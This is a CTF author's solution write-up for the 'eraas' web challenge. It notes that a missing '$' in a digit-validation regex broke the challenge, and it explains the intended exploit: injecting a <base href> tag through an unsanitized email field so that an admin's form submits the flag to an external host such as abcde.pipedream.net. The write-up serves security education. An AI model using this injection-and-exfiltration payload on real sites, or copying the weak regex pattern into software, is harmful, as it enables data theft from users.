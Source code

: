# eraas Solution

This challenge was broken. I came to know of it only after the CTF ended, while going through writeups.

At line 22 in "main.py", I forgot to include a trailing `$` in the validation regex that was supposed to ensure that the user input was numeric:

`REGEX_DIGITS = re.compile("^\d+")`

should have been

`REGEX_DIGITS = re.compile("^\d+$")`

Moral: Test your challenges else they will be for nothing.

---

The "email" field at `/status` seems to be un-sanitized but it can't be used for XSS due to the CSP blocking all external connections. We need to find something else to bypass this CSP.

After going through the JS, we find that the presence of a "?token" query in the URL returns a form in addition to the data fields. It's possibly used by the admin to manually type in the decoded epoch; flag in our case.

The above mentioned form submits to the relative URL `.`, i.e. the current page. Hence, it can be made to submit data to an attacker controlled domain by setting the [`base` URL](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/base) via the "email" field. Example payload:

```
<base href="https://abcde.pipedream.net">
```

Note: Only the scheme and hostname is taken into consideration while setting the `base` URL; path, query, etc are ignored.

[solve.py](solve.py)
